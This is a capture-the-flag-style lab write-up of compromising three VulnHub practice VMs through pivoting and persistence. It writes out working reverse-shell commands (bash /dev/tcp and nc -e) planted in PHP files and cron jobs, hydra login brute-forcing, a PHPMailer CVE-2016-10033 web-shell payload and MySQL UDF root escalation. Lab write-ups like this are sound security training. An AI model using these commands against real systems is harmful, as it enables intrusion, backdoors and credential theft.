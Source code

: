# Trio
This write-up is for a virtual network I created using VirtualBox and three machines from [vulnhub](https://www.vulnhub.com/). The focus of this excersice was learning how to pivot between devices, C2 management, and anti-network-forensics.

## Scope
- [Mr Robot VM](https://www.vulnhub.com/entry/mr-robot-1,151/)
- [Metasploitable 2 VM](https://www.vulnhub.com/entry/metasploitable-2,29/)
- [Raven 2 VM](https://www.vulnhub.com/entry/raven-2,269/)

## Workflow
This is a operational breakdown of the steps taken to compromise the three VMs.

### Metasploitable 2 VM
#### Gaining Access
After running my [pentest](https://github.com/montyonsecurity/pentest) script on the target, the VSFTPd service was discovered and is vulnerable to [backdoor command execution](https://www.exploit-db.com/exploits/17491).

Executing EDB-ID:17491 with the Metasploit Framework Console gives root access to the machine.

Perstistance was established two ways:
- SSH Keys for the root account
- MSFVenom meterpreter payload calls back on a  \* \* \* \* \*  cron under root

### Mr Robot VM
#### Gaining Access
The main constraint here is that my attack box cannot directly send this VM any suspicious traffic, it has to all come from (or look like it is comming from) the Metasploitable 2 VM.

To achieve this, I read the man pages for proxychains and SSH, only to realize you can use proxychains to route traffic through a SSH via dynamic port forwarding. So I automated [this](https://github.com/montyonsecurity/sshproxy).

After setting the Metasploitable 2 VM as the proxy, I was then able to perform active recon on the Mr Robot VM without directly touching it.

Using dirb, I routed my traffic through the SSH proxy and enumerated a /wp-login page. Given that this is a machine inspired my the well recieved "Mr Robot" TV series, I used cewl to build a wordlist from the [Mr Robot Fandom](mrrobot.fandom.com/wiki/Mr_Robot_Wiki)
	
	proxychains dirb https://192.168.56.109

Using the resulting wordlist, I used hydra to enumerate *elliot* as a user. I then used cewl again to create a wordlist from [Elliot's fandom](mrrobot.fandom.com/wiki/Elliot_Alderson). Using that, I enumerated his password to be his employee number, ER28-0652.
	
	cewl -v -w mr_robot https://mrrobot.fandom.com/wiki/Mr_Robot_Wiki
	proxychains hydra -L mr_robot -p idc 192.168.56.109 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:Invalid"
	cewl -v -w ell https://mrrobot.fandom.com/wiki/Elliot_Alderson
	proxychains hydra -l elliot -P ell 192.168.56.109 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:Incorrect"

I edited the 404.php page template to include a system call to open a reverse shell pointing to the Metasploitable 2 VM, resulting in www-data access

#### Maintaining Persistence
I edited multiple PHP files on the web server to include system calls for and mix of binded ports and reverse shells
	
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.111/5253 0>&1'");
	exec("/bin/bash -c 'nc -lnvp 5253 -e /bin/bash'");

I also set a cron under www-data for a reverse shell
	
	echo "* * * * * nc 192.168.56.111 5253 -e /bin/bash 2> /dev/null" > tmp && crontab tmp && rm tmp

#### Privelege Escalation
Nmap is installed as root and has interactive mode, running *nmap --interactive* gives you an EUID of 0.

After uploading running [thief](https://github.com/montyonsecurity/thief), it was discovered that the user robot can sudo

#### Perstistance
Using the access that the EUID gives me, I exported a copy of the shadow file with SSH and cracked robot's password

Now I have mutiple shells for www-data, SSH access for robot, and a way to get a EUID of root.

### Raven 2 VM
#### Gaining Access
The file /vendor/VERSION on the web server running exposes the version number for the PHPMailer running on the webserver, which is vulnerable to [CVE: 2016-10033](https://www.exploit-db.com/exploits/40974). /contact.php was identified as the page running PHPMailer. The exploit was configured to drop a reverse shell that calls back to the Metasploitable 2 VM

#### Maintaining Persistence
When I exploited CVE: 2016-10033, I uploaded a shell.php file to the web server that, when invoked, uses a system call to initiate a reverse shell
	
	target = 'http://192.168.56.110/contact.php'
	backdoor = '/shell.php'
	payload '<?php system(\'nc 192.168.56.111 7777 -e /bin/bash\'); ?>'
	fields={'action':'submit',
		'name': payload,
		'email':'"anacoder\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server\" @protonmail.com',
		'message':'Pwned'}

I also set a binded port on www-data's cron
	
	echo "* * * * * nc -lnvp 7777 -e /bin/bash 2> /dev/null" > tmp && crontab tmp && rm tmp

#### Privelege Escalation
With www-data access, I uploaded [thief](https://github.com/montyonsecurity/thief) and enumerated a SQL instance running as root

Used *find* to locate all files that may contain credentials for the SQL server
	
	find / $(pwd) -type f -name "**.php" 2> /dev/null*

Found root's SQL password, logged in as root

Used [EDB-ID 1518](https://www.exploit-db.com/exploits/1518) to get root on the system
	
	Target Box (MySQL interpreter)
		select @@plugin_dir
		nc -lnvp 1337 > .sql.so

	Attack Box
		proxychains nc 192.168.56.110 1337 < raptor_udf2.so

	Target Box (MySQL interpreter)
		use mysql; create table foo(line blob); insert into foo values(load_file('/tmp/.sql.so')); select * from foo into dumpfile '/usr/lib/mysql/plugin/.sql.so'; create function do_system returns integer soname 'sql.so';

	Target Box (Bash interpreter)
		touch tmp && find tmp -exec '/bin/sh'
